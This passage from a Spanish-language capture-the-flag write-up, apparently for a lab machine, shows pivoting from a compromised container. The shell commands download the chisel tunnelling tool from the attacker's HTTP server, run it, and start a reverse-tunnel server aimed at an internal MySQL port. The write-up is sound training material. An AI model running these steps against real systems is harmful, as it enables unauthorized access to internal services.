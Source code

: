 
## Port Forwarding - `chisel` (Container)

No disponemos del comando `mysql` para conectarnos a `172.17.0.1` desde el contenedor, ni una conexión por `ssh` con credenciales para facilitar un `Port Forwarding.

Utilizaremos la herramienta `chisel` para **crear un túnel** que comunique el puerto `3306` de la IP `172.17.0.1` (el que esperamos alcanzar), con un puerto de nuestra máquina atacante.

- Primeramente descargaremos `chisel` ya sea desde un binario pre-compilado o compilado por nosotros
- Luego transferiremos el binario a la máquina víctima, por ejemplo usando un servidor HTTP

> Considera usar un binario compilado de `chisel`, lo puedes compilar tú mismo o descargar un recurso de `Github` pre-compilado
{: .notice--danger}

- https://github.com/jpillora/chisel

~~~ bash
www-data@8e3a72b5e980:/var/www/html/wordpress$ curl http://10.10.15.9/chisel -o chisel
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 8792k  100 8792k    0     0  1394k      0  0:00:06  0:00:06 --:--:-- 1711k
~~~

Desde nuestro servidor HTTP deberíamos haber recibido la solicitud correctamente

~~~ bash
python3 -m http.server 80                                                                                               
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.52 - - [03/May/2025 13:59:46] "GET /chisel HTTP/1.1" 200 -
~~~

Le daremos permisos de ejecución y iniciaremos con una ejecución para comprobar que funcione

~~~ bash
www-data@8e3a72b5e980:/var/www/html/wordpress$ chmod +x chisel 
www-data@8e3a72b5e980:/var/www/html/wordpress$ ./chisel 

  Usage: chisel [command] [--help]

  Version: 0.0.0-src (go1.22.9)

  Commands:
    server - runs chisel in server mode
    client - runs chisel in client mode

  Read more:
    https://github.com/jpillora/chisel
~~~

Iniciaremos `chisel` con la opción de servidor por un puerto que esté libre, en mi caso, el puerto `8000`

~~~ bash
chisel server -p 8000 --reverse 
2025/05/03 14:06:06 server: Reverse tunnelling enabled
2025/05/03 14:06:06 server: Fingerprint VHcpNzlwX/tNdDUh/6ytZmsXpOCy8/Ik/aCKzgCzzJE=
2025/05/03 14:06:06 server: Listening on http://0.0.0.0:8000
~~~
